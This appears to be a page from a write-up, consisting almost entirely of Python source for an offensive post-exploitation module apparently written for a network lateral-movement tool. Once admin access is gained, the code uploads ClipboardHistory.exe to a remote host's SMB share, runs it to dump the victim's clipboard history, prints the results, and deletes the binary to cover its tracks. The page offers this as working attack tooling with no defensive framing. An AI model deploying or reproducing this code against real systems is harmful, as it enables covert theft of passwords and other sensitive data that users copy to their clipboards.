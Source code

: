 ```python

        if "Clip_EXE" in module_options:
            self.FilePath = module_options["Clip_EXE"]
            self.useembeded = False

    def Dump_Clipboard_Data(self, _, connection):
            command = f"{self.tmp_dir}ClipboardHistory.exe"
            return connection.execute(command, True)
    

    def on_admin_login(self, context, connection):

        if self.useembeded:
            file_to_upload = "/tmp/ClipboardHistory.exe"
            with open(file_to_upload, 'wb') as FileWrite:
                FileWrite.write(self.ClipboardHistory_embedded)
        else:
            if path.isfile(self.FilePath):
                file_to_upload = self.FilePath
            else:
                context.log.error(f"Cannot open {self.FilePath}")
                exit(1)

        context.log.info(f"Uploading {self.clipboardhistory}")
        with open(file_to_upload, 'rb') as ClipboardOpenFile:
            try:
                connection.conn.putFile(self.share, f"{self.tmp_share}{self.clipboardhistory}", ClipboardOpenFile.read)
                context.log.success(f"Clipboard binary successfully uploaded")
            except Exception as e:
                context.log.error(f"Error writing file to share {self.tmp_share}: {e}")
                return

        try:
            context.log.info(f"Listing available primary tokens")
            p = self.Dump_Clipboard_Data(context, connection)
            for line in p.splitlines():
                context.log.highlight(f"{line}")

        except Exception as e:
            context.log.error(f"Error runing command: {e}")
        finally:
            try:
                connection.conn.deleteFile(self.share, f"{self.tmp_share}{self.clipboardhistory}")
                context.log.success(f"ClipboardHistory binary successfully deleted")
            except Exception as e:
                context.log.error(f"Error deleting ClipboardHistory.exe on {self.share}: {e}")
```

# Conclusion
